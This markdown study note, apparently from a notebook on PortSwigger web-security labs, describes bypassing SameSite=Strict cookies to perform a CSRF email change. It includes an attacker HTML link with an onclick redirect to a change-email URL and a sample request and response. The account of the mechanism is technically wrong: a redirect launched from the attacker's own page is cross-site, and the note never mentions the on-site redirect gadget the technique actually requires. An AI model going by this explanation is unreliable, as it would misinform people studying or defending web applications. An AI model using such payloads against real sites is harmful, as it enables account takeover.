

## Lab 10: SameSite Strict Bypass via Client-Side Redirect

In this lab, we will explore how an attacker can bypass the `SameSite=Strict` protection using a client-side redirect. The goal is to exploit the CSRF vulnerability to change the victim's email address.

### Background Theory

Client-side redirects are often used to navigate users to different pages within a web application. However, they can also be exploited to bypass security mechanisms like `SameSite=Strict`. By tricking the victim into performing a client-side redirect, the attacker can ensure that the malicious request is treated as a first-party request.

### Step-by-Step Mechanics

1. **Victim Authentication**: The victim logs into the web application and receives a session cookie.
2. **Malicious Link**: The attacker crafts a malicious link that initiates a client-side redirect.
3. **Redirect Execution**: The victim clicks on the malicious link, which triggers the client-side redirect.
4. **First-Party Request**: The redirect causes the victim's browser to send a first-party request to the web application, bypassing the `SameSite=Strict` protection.
5. **Email Change**: The web application processes the request and changes the victim's email address.

### Complete Code Example

Let's walk through the complete code example for this lab.

#### Victim's Browser

The victim's browser is already authenticated to the web application and has received a session cookie.

```mermaid
sequenceDiagram
    participant VictimBrowser
    participant WebApp
    VictimBrowser->>WebApp: GET /login
    WebApp-->>VictimBrowser: Set-Cookie: session=abc123; SameSite=Strict
    VictimBrowser->>WebApp: POST /login
    WebApp-->>VictimBrowser: 200 OK
```

#### Attacker's Website

The attacker crafts a malicious link that initiates a client-side redirect.

```html
<a href="javascript:void(0);" onclick="location.href='https://webapp.example.com/change-email?new_email=attacker@example.com';">Click here</a>
```

#### Victim Interaction

The victim clicks on the malicious link, which triggers the client-side redirect.



#### Web Application Response

The web application processes the request and changes the victim's email address.

```http
GET /change-email?new_email=attacker@example.com HTTP/1.1
Host: webapp.example.com
Cookie: session=abc123

HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: session=abc123; SameSite=Strict

<!DOCTYPE html>
<html>
<head>
    <title>Email Changed</title>
</head>
<body>
    <h1>Your email has been changed to attacker@example.com</h1>
</body>
</html>
```

### Common Mistakes and Pitfalls

One common mistake is not properly validating the origin of requests. The web application should check if the request originated from a trusted source. Another pitfall is not implementing additional CSRF protections, such as anti-CSRF tokens.

---
<!-- nav -->
[[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/11-Lab 10 SameSite Strict bypass via client side redirect/01-Introduction to Cross-Site Request Forgery (CSRF)|Introduction to Cross-Site Request Forgery (CSRF)]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/11-Lab 10 SameSite Strict bypass via client side redirect/00-Overview|Overview]] | [[03-Bypassing SameSite Strict via Client-Side Redirect|Bypassing SameSite Strict via Client-Side Redirect]]
